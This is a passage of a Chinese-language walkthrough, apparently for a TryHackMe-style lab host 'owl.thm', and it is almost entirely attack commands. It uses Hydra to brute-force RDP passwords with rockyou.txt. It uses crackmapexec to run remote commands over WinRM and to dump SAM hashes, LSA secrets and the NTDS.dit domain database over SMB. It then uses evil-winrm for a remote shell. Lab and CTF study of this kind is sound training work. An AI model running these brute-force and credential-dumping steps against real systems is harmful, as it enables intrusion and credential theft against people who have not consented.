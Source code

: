 ```bash
```

### **執行命令**
```bash
# PowerShell 命令
crackmapexec winrm owl.thm -u Jareth -p password123 -x "whoami"
crackmapexec winrm owl.thm -u Jareth -p password123 -x "ipconfig"

# 列出目錄
crackmapexec winrm owl.thm -u Jareth -p password123 -x "dir C:\Users\Jareth\Desktop"
```

### **提取資訊**
```bash
# 提取 SAM (需要管理員權限)
crackmapexec smb owl.thm -u Administrator -p password --sam

# 提取 LSA secrets
crackmapexec smb owl.thm -u Administrator -p password --lsa

# 提取 NTDS.dit (Domain Controller)
crackmapexec smb dc.thm -u Administrator -p password --ntds
```

## 💡 為什麼要用兩者?

**標準流程:**
```bash
# 1. 用 Hydra 快速爆破找密碼
hydra -l Jareth -P small_wordlist.txt rdp://owl.thm

# 2. 用 CME 驗證和利用
crackmapexec winrm owl.thm -u Jareth -p password123
crackmapexec smb owl.thm -u Jareth -p password123 --shares

# 3. 用 evil-winrm 或其他工具深入利用
evil-winrm -i owl.thm -u Jareth -p password123
```

## 🎯 你的情況

你做的很對!

```bash
# 1. Hydra 找到密碼
hydra -l Jareth -P rockyou.txt owl.thm rdp
# 結果: password123 可能有效

# 2. CME 驗證
crackmapexec winrm owl.thm -u Jareth -p password123
# 結果: (Pwn3d!) - 確認有完整權限!

# 3. 連線利用
evil-winrm -i owl.thm -u Jareth -p password123
```

